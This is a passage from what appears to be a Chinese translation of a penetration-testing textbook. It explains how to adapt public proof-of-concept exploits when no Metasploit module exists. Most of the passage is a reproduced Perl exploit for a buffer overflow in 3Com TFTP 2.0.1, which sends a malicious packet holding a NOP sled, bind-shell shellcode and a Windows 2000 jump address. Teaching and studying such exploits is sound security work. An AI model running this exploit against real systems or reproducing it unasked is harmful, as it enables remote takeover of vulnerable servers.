 ## 将公开漏洞移植以满足你的需求

有时你可能会在渗透测试中发现一个可利用的漏洞，但没有可用的 Metasploit 模块来利用它。虽然 Metasploit 团队和社区中的贡献者在保持 Metasploit 与当前威胁同步方面做得非常出色，但并非所有已知的互联网漏洞都已移植到这个框架中。

我们可以尝试通过下载目标软件并开发有效的漏洞利用来进行攻击，但这种方法并不总是可行的。相关软件可能需要支付昂贵的许可费用，导致你在渗透测试中亏损，或者可能无法从供应商或其他地方获得。此外，你的渗透测试可能有时间限制，因此，你最好去寻找环境中其他潜在的漏洞，而不是花费大量时间开发自定义漏洞利用。

开发自己的有效漏洞利用的一种方法是使用公开可用的漏洞利用作为基础，并将其移植到你的环境中。即使漏洞没有对应的 Metasploit 模块，你也可以在像 Exploit Database (*[`www.exploit-db.com/`](http://www.exploit-db.com/)*) 或 SecurityFocus (*[`www.securityfocus.com/`](http://www.securityfocus.com/)*）这样的网站上找到概念验证的漏洞利用代码。尽管公开的漏洞利用代码应该谨慎使用（并不是网上的所有东西都如其所述那样运行），但只要我们尽职调查，仍然可以安全地使用这些公开的漏洞利用代码。

我们从 Exploit Database 中找到的公开漏洞利用是针对 3Com TFTP 2.0.1 版本的长传输模式漏洞，链接在网上可以找到，位于 *[`www.exploit-db.com/exploits/3388/`](http://www.exploit-db.com/exploits/3388/)*，并显示在示例 19-5 中。

示例 19-5. 3Com TFTP 的公开漏洞利用

```
#!/usr/bin/perl –w ❶
#===============================================================
#                3Com TFTP Service <= 2.0.1 (Long Transporting Mode) Overflow Perl Exploit
#                               By Umesh Wanve (umesh_345@yahoo.com)
#===============================================================
# Credits : Liu Qixu is credited with the discovery of this vulnerability.
# Reference : http://www.securityfocus.com/bid/21301
# Date : 27-02-2007
# Tested on Windows 2000 SP4 Server English ❷
#           Windows 2000 SP4 Professional English
# You can replace shellcode with your favourite one :
# Buffer overflow exists in transporting mode name of TFTP server.
# So here you go.
# Buffer = "\x00\x02"      +  "filename"    +  "\x00" +  nop sled +  Shellcode + JUMP  + "\x00";
# This was written for educational purpose. Use it at your own risk. Author will not be
# responsible for any damage.
#===============================================================
use IO::Socket;
if(!($ARGV[1]))
{
 print "\n3COM Tftp long transport name exploit\n";
 print "\tCoded by Umesh wanve\n\n";
 print "Use: 3com_tftp.pl <host> <port>\n\n";
 exit;
}
$target = IO::Socket::INET->new(Proto=>'udp',
                                PeerAddr=>$ARGV[0],
                                PeerPort=>$ARGV[1])
                            or die "Cannot connect to $ARGV[0] on port $ARGV[1]";
# win32_bind -  EXITFUNC=seh LPORT=4444 Size=344 Encoder=PexFnstenvSub http://metasploit.com
my($shellcode)= ❸
"\x31\xc9\x83\xe9\xb0\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x48".
"\xc8\xb3\x54\x83\xeb\xfc\xe2\xf4\xb4\xa2\x58\x19\xa0\x31\x4c\xab".
"\xb7\xa8\x38\x38\x6c\xec\x38\x11\x74\x43\xcf\x51\x30\xc9\x5c\xdf".
--*snip*--
"\xc3\x9f\x4f\xd7\x8c\xac\x4c\x82\x1a\x37\x63\x3c\xb8\x42\xb7\x0b".
"\x1b\x37\x65\xab\x98\xc8\xb3\x54";
print "++ Building Malicious Packet .....\n";
$nop="\x90" x 129;
$jmp_2000 = "\x0e\x08\xe5\x77";❹# jmp esi user32.dll windows 2000 sp4 english
$exploit = "\x00\x02";❺                        #write request (header)
$exploit=$exploit."A";                          #file name
$exploit=$exploit."\x00";                       #Start of transporting name
$exploit=$exploit.$nop;❻                      #nop sled to land into shellcode
$exploit=$exploit.$shellcode;❼                 #our Hell code
$exploit=$exploit.$jmp_2000;❽                  #jump to shellcode
```